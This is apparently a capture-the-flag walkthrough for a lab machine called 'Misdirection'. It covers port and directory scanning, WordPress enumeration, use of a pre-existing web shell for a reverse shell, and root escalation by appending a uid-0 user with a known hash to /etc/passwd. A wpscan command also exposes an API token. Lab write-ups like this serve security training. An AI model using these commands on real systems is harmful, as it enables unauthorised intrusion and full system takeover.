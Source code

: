 # MISDIRECTION: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.122.1/24 -oN host_discovery.txt`
![964ae28c347ea800c0ca3cb1af9404fc.png](./_resources/f8184439c1bc485198e1fbabbc256194.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.122.128 -oN full_service_enum-sC.txt`
![c0118f47fe3f23543752037d1cd3819a.png](./_resources/4482c4bf993e417685148f57d11af681.png)

`nmap -sV -sU -F 192.168.128.128 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt --wildcard -o info.txt`
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --wildcard -o info1.txt`
You will need grep data that not contain 400 status code:
![57f359a1ac8c6bb2a67ff4619507d0be.png](./_resources/cf75231c96414c28b812d0e075b996fa.png)

### 1.3.2 User manual in main page
`http://192.168.122.128/init/static/evote_user_manual.pdf`
It shows us the app version:
![e0e864b44d766ba704d46023ccf3cbee.png](./_resources/898f5658981f44ad835074360dc57734.png)

### 3.3.3 Web2py exploit (but not usable)
![1c2993967314b90787c70b7e71328f70.png](./_resources/db6e6e2312d44a9bb5285d93f093f2e3.png)

## 1.4 Web 8080
### 1.4.1 Dirb
![8d73d362506f8d8a4312bbd596efd2a3.png](./_resources/e1b093ad4cea4cd0b9eef71ba3285f35.png)
Interesting, the target have wordpress, debug and shell directories.

### 1.4.2 Wpscan
`wpscan --url http://192.168.122.128:8080/wordpress/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt`

### 1.4.3 Debug dir (web shell)
![b83066b3a593994bb2a59b4bf2fea860.png](./_resources/7b7b9241d3f5418ba9fbc2194d746a33.png)
Here we have a web shell previously uploaded by an attacker. I will use it.


# 2 Exploitation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
For reverse shell we can use the web shell:
![ff339e186917b0d67b44f0eccb33c84a.png](./_resources/30d8685843284d37ad9ed3289aa98dbb.png)


# 3 Post-exploitation
LinEnum returns some information:
![794419220afc11924c878cccbaad64b2.png](./_resources/4f318c4c53854d73ac64ab2049a9b0fa.png)
![bcabaf737f7668b53158a3050497cad8.png](./_resources/182c1ba93b234e8698ff7261c793c224.png)

## 3.1 First user
`sudo -u brexit /bin/bash`
![928841574ea280986c8302033b2610e6.png](./_resources/dbdf0674767b42d2be38840ba5075579.png)

## 3.2 Getting root with openssl
Since we have write access as brexit user, we can use openssl to escalate privilege:
`openssl passwd -1 -salt foo foo@12345`
![2016a7f9e96d0bba799880d83c8b9a24.png](./_resources/80bcb574c6ff4cad840f3f9e52854a92.png)

With `echo`, let's add a new user manually:
`echo 'foo:$1$foo$vIxZ6xcPqixL6sHxOWInM1:0:0:root:/root:/bin/bash' >> /etc/passwd`
obs: Its necessary to use single quotes, or the new user is not added.
![c822d5c8d2b6c604aa7e0bfa3ca82185.png](./_resources/483d8f387d9f4c9c90c9eed9ec538208.png)
